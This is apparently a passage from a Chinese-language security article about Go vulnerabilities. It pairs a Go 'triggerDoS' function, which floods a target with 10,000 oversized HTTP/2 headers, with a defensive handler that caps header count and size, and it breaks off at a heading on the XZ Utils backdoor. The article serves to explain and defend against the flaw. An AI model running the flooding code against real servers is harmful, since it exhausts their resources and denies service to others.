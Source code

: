 **漏洞描述**:
net/http包在处理特定的HTTP/2请求时，可能导致CPU资源耗尽。

**攻击场景**:
```go
// 可能触发漏洞的请求模式
func triggerDoS(target string) {
    transport := &http2.Transport{}
    client := &http.Client{Transport: transport}
    
    // 发送特制的HTTP/2请求
    req, _ := http.NewRequest("GET", target, nil)
    
    // 添加大量的伪头部
    for i := 0; i < 10000; i++ {
        req.Header.Add(fmt.Sprintf("X-Custom-%d", i), strings.Repeat("A", 1000))
    }
    
    client.Do(req)
}
```

**防御措施**:
```go
// 实施请求限制
func protectedHandler(w http.ResponseWriter, r *http.Request) {
    // 限制头部数量
    if len(r.Header) > 100 {
        http.Error(w, "Too many headers", http.StatusBadRequest)
        return
    }
    
    // 限制头部大小
    var totalSize int
    for k, values := range r.Header {
        totalSize += len(k)
        for _, v := range values {
            totalSize += len(v)
        }
    }
    
    if totalSize > 8192 { // 8KB限制
        http.Error(w, "Headers too large", http.StatusBadRequest)
        return
    }
    
    // 正常处理请求
}
```

## 二、其他高危CVE漏洞

### 4. CVE-2024-3094: XZ Utils后门漏洞
